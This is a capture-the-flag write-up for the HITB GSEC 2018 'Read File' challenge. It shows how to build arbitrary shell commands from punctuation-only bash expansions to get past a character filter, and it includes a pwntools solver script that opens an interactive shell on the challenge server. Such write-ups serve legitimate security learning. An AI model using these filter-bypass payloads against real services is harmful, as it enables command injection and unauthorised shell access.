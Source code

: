 ```yaml
---
title: "HITB GSEC Qualifiers 2018 - Read File (Misc)"
header:
  overlay_image: /assets/images/hitbgsecquals2018/readfile/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Christopher Burns on Unsplash"
tags:
  - hitbgsecquals2018
  - writeup
  - misc
---
```


Arbitrary shell commands can be created by using only punctuation in a service
that filters all characters except for punctuation.

## Challenge Description

```
nc 47.75.148.60 9999


nc 47.75.148.60 9999
```

#### Points

266 Points

56 Solved

## Solution

The service filters all characters except punctuation before running:

```
echo $input
```

Thus, the objective is to figure out a way to create letters from only
punctuation characters.

We can make numbers with the following primitive (1):

```
$(( $$/$$ ))
```

Next, we can get the string "runsh" in:

```
${!#}
```

Now, we can extract letters from the string by using subscripts.

The solution script by Quanyang:

```python
from pwn import *
context(arch = 'i386', os = 'linux')

r = remote('47.75.148.60', 9999)
# EXPLOIT CODE GOES HERE
print r.recvuntil("Input:")
_1 = "$(( $$/$$ ))"
_2 = "$(( ($$/$$)+($$/$$) ))"
_3 = "$(( ($$/$$)+($$/$$)+($$/$$) ))"
_4 = "$(( ($$/$$)+($$/$$)+($$/$$)+($$/$$) ))"
_5 = "$(( ($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$) ))"
_6 = "$(( ($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$) ))"
_7 = "$(( ($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$) ))"
_8 = "$(( ($$/$$)+($$/$$)+($$/$$)+($$/$$) +($$/$$)+($$/$$)+($$/$$)+($$/$$)))"
_9 = "$(( ($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$) ))"
_0 = "${#}"
chars = {"r":"${!#:2:1}","u":"${!#:3:1}","n":"${!#:4:1}","s":"${!#:6:1}",
         "h":"${!#:7:1}","B":"${-:1}"}

def format(cmd):
    for i in cmd:
        if i in chars:
            cmd = cmd.replace(i,chars[i])
    cmd = cmd.replace("1",_1).replace("2",_2).replace("3",_3).replace("4",_4)
    cmd = cmd.replace("5",_5).replace("6",_6).replace("7",_7).replace("8",_8)
    cmd = cmd.replace("9",_9).replace("0",_0)
    return cmd
cmd = raw_input()
r.sendline(format(cmd))
r.interactive()
```

Running the above script and executing `sh` will give us a shell to find the
flag.

Flag: **HITB{d7dc2f3c59291946abc768d74367ec31}**
